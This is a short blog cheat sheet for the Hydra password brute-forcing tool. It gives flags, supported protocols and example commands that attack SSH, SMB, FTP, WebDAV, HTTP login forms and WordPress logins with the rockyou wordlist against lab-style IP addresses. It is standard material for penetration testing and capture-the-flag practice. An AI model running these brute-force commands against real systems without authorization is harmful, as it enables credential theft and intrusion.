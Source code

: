 +++
author = "Noobosaurus R3x"
title = "Hydra Cheat Sheet"
date = "2023-07-18 11:12"
description = "Hydra Cheat Sheet"
type = [
    "posts"
]
categories = [
    "cheat-sheets"
]
tags = [
    "cheat-sheets"
]
+++
---
# **Basic syntax :**
```bash
hydra [options] <IP> <protocole>
```
---
## Some flags :

`-h` Show help menu  
`-l <username>` Username/login  
`-L <wordlist>` Usernames/login wordlist  
`-p <password>` Password  
`-P <wordlist>` Passwords wordlist  
`-s <PORT>` Specify port  
`-f` Stop bruteforce as soon as username and password are found  
`-R` Restore previous session  
`-t <number>` Number of threads  
`-V` Verbosity  

## Some protocols :

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP, SMB, SMTP, MySQL, etc...

## Examples :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Bruteforce HTTP Post form :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect
```

## Bruteforce Wordpress :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## Bruteforce FTP :
```bash
hydra -L /path/to/userlist.txt -P /path/to/pasword_list.txt 10.10.10.10 -t 4 ftp
```

## Bruteforce WebDav : 
```bash
hydra -L /path/to/userlist.txt -P path/to/pasword_list.txt 10.10.10.10 http-get /webdav
```
---
If you want to watch my video on hydra, in french only : 
{{< youtube id="Fu6Xn8RpO7Q" >}}